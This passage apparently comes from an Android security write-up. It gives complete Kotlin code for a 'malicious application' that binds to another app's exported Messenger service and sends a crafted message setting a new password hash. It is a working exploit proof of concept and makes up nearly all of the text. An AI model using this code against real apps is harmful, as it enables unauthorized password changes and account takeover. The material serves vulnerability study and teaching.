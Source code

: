 We need to create a malicious application that interacts with the service, binds to it, and sends a message containing the new password hash. Based on the information we detailed above, the process of creating the application should be quite easy. Here is an example of the code we can use.

*MainActivity.kt*

```kotlin
class MainActivity : AppCompatActivity() {

    private var mService: Messenger? = null

    private var bound: Boolean = false


    private val mConnection = object : ServiceConnection {

        override fun onServiceConnected(className: ComponentName, service: IBinder) {
            mService = Messenger(service)
            bound = true
            updatePassword()
        }

        override fun onServiceDisconnected(className: ComponentName) {
            mService = null
            bound = false
        }
    }


    fun updatePassword(){
        if (!bound) return
        val msg: Message = Message.obtain(null,2,0,0)
        val data = Bundle()
        data.putString("hash","2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824")

        msg.data = data

        try {
            mService?.send(msg)
            Toast.makeText(this,"Password Updated", Toast.LENGTH_SHORT)
        }catch (e:RemoteException){
            e.printStackTrace()
        }
    }


    override fun onStop() {
        super.onStop()
        if (bound) {
            unbindService(mConnection)
            bound = false
        }
    }
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        Intent("android.intent.action.MESSENGER").setPackage("com.alright.serviceserver").also { intent ->
            val  res = bindService(intent, mConnection, Context.BIND_AUTO_CREATE)
            Log.e("bound", res.toString())
        }
    }
}
```